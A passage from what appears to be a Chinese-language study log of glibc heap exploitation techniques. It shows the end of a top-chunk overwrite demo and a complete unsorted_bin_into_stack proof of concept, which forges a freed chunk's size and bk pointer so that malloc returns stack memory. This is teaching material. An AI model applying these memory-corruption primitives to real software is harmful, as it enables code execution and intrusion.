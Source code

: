 ```
	strcpy(ctr_chunk, "YEAH!!!"); //覆盖bss_var的内容

```
限制条件：

（1）可以以溢出等方式控制到top chunk的size部分

（2）可以自由地控制堆分配尺寸的大小

溢出覆盖top chunk size后，分配计算出的偏移大小后的调试信息：

![](../image/2019-10-10-堆利用记录/38.jpg)

### unsorted_bin_into_stack.c

```
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

int main() {
  intptr_t stack_buffer[4] = {0};
  intptr_t* victim = malloc(0x100);
  intptr_t* p1 = malloc(0x100);

  free(victim);

  stack_buffer[1] = 0x100 + 0x10;
  stack_buffer[3] = (intptr_t)stack_buffer;

  //------------VULNERABILITY-----------

  victim[-1] = 32; 
  // 绕过2*SIZE_SZ (> 16 on x64) && < av->system_mem 的判断
  victim[1] = (intptr_t)stack_buffer; // victim->bk is pointing to stack
  //伪造victim 的bk指针，指向栈上的地址   

  //------------------------------------
  char *A = malloc(0x100); //分配得到栈上的chunk
}
```
